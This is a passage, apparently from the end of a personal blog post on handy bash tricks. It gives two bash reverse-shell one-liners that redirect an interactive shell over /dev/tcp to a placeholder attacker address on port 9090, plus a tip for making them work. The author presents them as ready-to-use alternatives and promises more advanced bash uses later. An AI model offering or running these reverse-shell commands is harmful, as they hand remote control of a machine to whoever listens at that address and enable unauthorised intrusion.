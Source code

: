 Here are some alternatives to the above:

```bash
/bin/bash -i &>/dev/tcp/your.ip.here/9090 <&1
/bin/bash -i &>/dev/tcp/your.ip.here/9090 0<&1
```

All perform the same function. Just know that if it doesn't work at first, try enclosing it within `bash -c 'etc etc'`

That's most of the easy ones. There are so many neat things that bash can do that I feel like I'm only scratching the surface. I will make another post about some more advanced uses of bash that I frequently use (or need some means of referring back to) in the near future. 